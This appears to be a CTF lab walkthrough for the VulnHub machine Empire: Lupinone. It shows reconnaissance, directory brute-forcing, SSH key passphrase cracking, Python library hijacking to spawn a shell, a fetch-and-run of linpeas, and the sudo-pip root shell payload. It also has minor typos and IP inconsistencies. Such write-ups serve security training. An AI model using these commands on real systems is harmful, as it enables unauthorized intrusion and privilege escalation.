# EMPIRE: LUPINONE

## Description

Welcome to the walkthrough of the CTF machine `EMPIRE: LUPINONE`. This CTF machine offers an exciting journey of discovery and exploitation. The machine's difficulty is medium, making it an engaging challenge for both beginners and those looking to test their skills. In this walkthrough, I'll guide you through the steps to conquer this challenge and locate both the user and root flags.


### Difficulty: Medium

### Authors: icex64 & Empire Cybersecurity

### Link: [EMPIRE: LUPINONE](https://www.vulnhub.com/entry/empire-lupinone,750/)

### Tools Used: 
- Netdiscover
- Nmap
- Dirb
- John

### Prerequisites: 
Basic knowledge of Linux architecture, subdomain finding, and usage of tools like ssh.


## Walkthrough

### Step 1: Discovering the IP

Our journey begins with identifying the IP address of the CTF machine. Use `netdiscover` tool: 

```bash
netdiscover -r 192.168.0.0/16
```

In my case, the IP is `192.168.141.138`. Note that your IP might differ.



### Step 2: Port Scanning with Nmap

Our next move is to conduct a port scan using `nmap` to uncover available services. Run the following command:

```bash
nmap -A -v -O -T4 192.168.141.137
```

Here is the result of nmap:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
|_  256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
| http-robots.txt: 1 disallowed entry 
|_/~myfiles
MAC Address: 00:0C:29:18:03:4F (VMware)
```

The results reveal thet two ports are open 22 (SSH) and 80 (HTTP).


### Step 3: Unraveling Web Secrets

Port 80 is a web server. By visiting the IP in browser a webpage opens.



The webpage only shows one image. 
We see that `robots.txt` file available so, by vising `robots.txt` it has one directory available named `/~myfiles`.

After visiting that directory it only shows Error 404. But in source code it one comment is available.




### Step 4: Seeking Hidden Paths
By the comment it might be possible that there is a hidden directory.

We're curious about secrets, so let's search for hidden paths. I used `dirb` for this.
Execute the command:

```bash
dirb http://192.168.141.138/~ -t
```
Here i use `-t` to start brutforcing without adding `/` at end.



I found a directory named `/~secret.` Let's check it out.

### Step 5: Unveiling the Secret
Navigating to `http://192.168.141.138/~secret` discloses a message.

Inside the secret directory, we see a message that tells us about an `SSH key`. We have to find a secret file. We also discover a user named `icex64.`



After some tries, I found that the key file's name starts with `.` and this file can be stored in `.txt` or `.html` form.

Use this command to find the secret file:
```bash
dirb http://192.168.141.138/~secret/. /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t -x .txt, .html
```



After running this code we successfully found a file named `.mysecret.txt`.



### Step 6: Cracking the Code

The founded file has the hash code. The hash in `.mysecret.txt` seems like encoded, so we need to decode it.

- Further investigation reveals that the hash is encoded in base58. 

- So i write a Python script that use to decode the hash which are available on the [script](Script/decode.py) directory or you can simply type this command to download that script:
```bash
wget https://raw.githubusercontent.com/Patel-Aum-28/CTF_Walkthrough/main/Empire_Lupinone/Script/decode.py
```
Save the hash in a file named `hash.txt`.


You'll also need the `base58` module, which you can install with:

```bash
pip install base58
```


Execute the script with:
```bash
python3 decode.py
``` 
Provide the input of saved hash file and output file name.



### Step 7: Unlocking the SSH Door

Than i just tried to login with that key but passphrase is required for it as we show in `~secret` directory's note.



To crack this, we'll use the `john` tool. First convert the key file into john readable file using:

```bash
python3 /usr/share/john/ssh2john.py key > ssh_login
```


Crack the passphrase with `john` using the fastrack wordlist, as hinted in the `~secret` directory note.

```bash
john --wordlist=/usr/share/wordlists/fastrack.txt ssh_login
```



Success! The passphrase is `P@55w0rd!`.

#### Note:- Add a blank line at the end of key file otherwise it gives error.


Grant permissions to the file and use SSH command to get into the machine:

```bash
chmod +x key
ssh -i key icex@<ip>
```



Let's explore the user's home directory to to find first flag, and we found `user.txt`.

```bash
cat user.txt
```



### Step 8: Moving Deeper

Inside the second user's directory, I found two files: `heist.py` and `note.txt`.



Examining `note.txt` reveals that user `icex64` have access to the program of user `arsene`.



And in python script `heist.py`, I find the `webbrowser` module. This might be a potential vulnerability.

### Step 9: Privilege Escalation

Running `sudo -l` unveils that user `icex64` have access of `Python3.9` and `heist.py` file. 



Here we have to find way to compromise this files to get access of user `arsene`.

To discover if any potential vulnerability available or not, I used [`linpeas`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script. 

- First go to the `tmp` directory and download it using:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```


Give the executable permission to the script and execute it:
```bash
chmod +x linpeas.sh && ./linpeas.sh
```


In the result of linpeas, we spot a hint about a vulnerability in `/usr/lib/python3.9/webbrowser.py`.



You can read more about webbrowser vulnerability on this site [Hackingarticles](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

### Step 10: Taking Control

Here when we run the file `heist.py` it runs with `/usr/lib/python3.9/webbrowser.py` this file so if we modify this file than we are be able to get the user `arsene`.

- Now we're ready to exploit the `webbrowser` vulnerability. So open `webbrowser.py` for editing:

```bash
nano /usr/lib/python3.9/webbrowser.py
```

Add the following lines to the file to execute a bash shell:

```python
import subprocess

subprocess.call("/bin/bash", shell=True)
```


Save the file and execute the `heist.py` script as the `arsene` user with `python3.9`:

```bash
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```



### Step 11: The Final Stretch

We are now `arsene` user. By running `sudo -l` once more, I identify a route for privilege escalation via `pip`.

we have a great website [`gtfobins`](https://gtfobins.github.io/) to find a way for post exploitation.

- In this website we have exploitation way for [`pip`](https://gtfobins.github.io/gtfobins/pip/).



We use sudo code to get root access 
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```



### Step 13: Root Flag

We are now `Root` so just go to the root's home directory and read the root flag in `root.txt`.

```bash
cd ../../root/
cat root.txt
```


